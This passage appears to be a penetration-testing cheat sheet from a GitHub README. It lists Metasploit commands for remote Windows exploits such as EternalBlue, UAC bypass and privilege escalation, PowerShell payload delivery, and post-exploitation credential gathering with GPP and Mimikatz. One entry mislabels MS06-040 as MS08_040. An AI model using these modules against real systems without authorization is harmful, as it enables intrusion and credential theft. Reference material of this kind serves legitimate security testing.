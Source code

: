 | Command | Description |
|---------|-------------|
| `use exploit/windows/smb/ms08_067_netapi` | MS08_067 Windows 2k, XP, 2003 Remote Exploit |
| `use exploit/windows/dcerpc/ms06_040_netapi` | MS08_040 Windows NT, 2k, XP, 2003 Remote Exploit |
| `use exploit/windows/smb/ms09_050_smb2_negotiate_func_index` | MS09_050 Windows Vista SP1/SP2 and Server 2008 (x86) Remote Exploit |
| `use exploit/windows/smb/ms17_010_eternalblue` | MS17_010 EternalBlue SMB Remote Windows Kernel Pool Corruption |

### :key: Local Windows Metasploit Modules (exploits)

| Command | Description |
|---------|-------------|
| `use exploit/windows/local/bypassuac` | Bypass UAC on Windows 7 + Set target + arch, x86/64 |
| `use exploit/windows/local/ms10_015_kitrap0d` | MS10_015 Kitrap0d Local Privilege Escalation |

### :mag: Auxilary Metasploit Modules

| Command | Description |
|---------|-------------|
| `use auxiliary/scanner/http/dir_scanner` | Metasploit HTTP directory scanner |
| `use auxiliary/scanner/http/jboss_vulnscan` | Metasploit JBOSS vulnerability scanner |
| `use auxiliary/scanner/mssql/mssql_login` | Metasploit MSSQL Credential Scanner |
| `use auxiliary/scanner/mysql/mysql_version` | Metasploit MySQL Version Scanner |
| `use auxiliary/scanner/oracle/oracle_login` | Metasploit Oracle Login Module |

### :shell: Metasploit Powershell Modules

| Command | Description |
|---------|-------------|
| `use exploit/multi/script/web_delivery` | Metasploit powershell payload delivery module |
| `post/windows/manage/powershell/exec_powershell` | Metasploit upload and run powershell script through a session |
| `use exploit/multi/http/jboss_maindeployer` | Metasploit JBOSS deploy |
| `use exploit/windows/mssql/mssql_payload` | Metasploit MSSQL payload |

### :wrench: Post Exploit Windows Metasploit Modules

| Command | Description |
|---------|-------------|
| `run post/windows/gather/win_privs` | Metasploit show privileges of current user |
| `use post/windows/gather/credentials/gpp` | Metasploit grab GPP saved passwords |
| `load mimikatz -> wdigest` | Metasploit load Mimikatz |
| `run post/windows/gather/local_admin_search_enum` | Identify other machines that the supplied domain user has administrative access to |
